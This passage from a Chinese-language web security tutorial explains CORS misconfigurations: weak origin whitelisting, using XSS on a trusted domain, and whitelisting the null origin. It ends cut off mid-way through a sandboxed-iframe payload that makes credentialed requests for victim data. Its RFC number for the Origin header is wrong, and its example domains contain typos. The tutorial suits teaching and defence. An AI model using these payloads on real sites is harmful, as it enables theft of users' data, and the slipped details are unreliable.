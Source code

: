 
  

web应用根据其允许的来源列表检查当前请求资源的来源，如果在列表中，则按以下方式反映该来源：

    
    
    HTTP/1.1 200 OK  
    ...  
    Access-Control-Allow-Origin: https://example.com  
    

  

但在检测来源是否存在于白名单时经常可能出现问题，一些网站可能会允许其所有的子域（包括尚未存在未来可能存在的子域）来进行访问，或者允许其他网站的域以及其子域来访问请求。这些请求一般都通过通配符或者正则表达式来完成，但是如果这其中出现错误可能就会导致给予其他未被授权的域访问权限。例如：  
例如，假设一个应用程序授予对以下列结尾的所有域的访问权限：  
examplecom  
攻击者可能可以通过注册域来获得访问权限：  
exeexample.com  
或者，假设应用程序授予对所有以example.com开头的域访问权限，攻击者就可以使用该域获得访问权限：  
example.com.evil-user.net

## 4|2利用相互受CORS信任的域来进行XSS

  

假如两个互相受信任的源，如果其中一个网站存在XSS，攻击者就可以利用XSS注入一些JavaScript代码，利用这些代码对信任其源的另一个网站进行敏感信息的获取。  
如果进行CORS请求时网站响应：

    
    
    HTTP/1.1 200 OK  
    Access-Control-Allow-Origin: https://vulnerable.com  
    Access-Control-Allow-Credentials: true  
    

  

就可以利用XSS漏洞在vulnerable.com网站上使用下面的URL来通过检索API密钥：  
`https://vulnerable.com/?xss=<script>cors-stuff-here</script>`

## 4|3白名单中的null值

  

CORS协议的一个重要安全前提是跨域请求中的Origin头不能被伪造，这个前提并不是总是成立。Origin头最早被提出用于防御CSRF攻击，它的语法格式在RFC
6564中被定义。RFC 6564规定，如果请求来自隐私敏感上下文时，Origin头的值应该为null，但是它却没有明确界定什么是隐私敏感上下文。

CORS协议复用了Origin头，但在CORS标准中同样缺乏对跨域请求Origin中null明确的定义和限制。有些开发者在网站上配置信任
null，用于与本地file页面共享数据，如下所示：  
Access-Control-Allow-Origin: null  
Access-Control-Allow-Credentials: true  
在这种情况下，攻击者可以使用各种技巧来生成跨域请求，该请求构造的Origin为null值。这将满足白名单的要求，从而导致跨域访问。例如，可以使用iframe以下格式的沙盒跨域请求来完成：

    
    
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>  
    var req = new XMLHttpRequest();  
    req.onload = reqListener;  
    req.open('get','vulnerable-website.com/sensitive-victim-data',true);  
    req.withCredentials = true;  
    req.send();  
      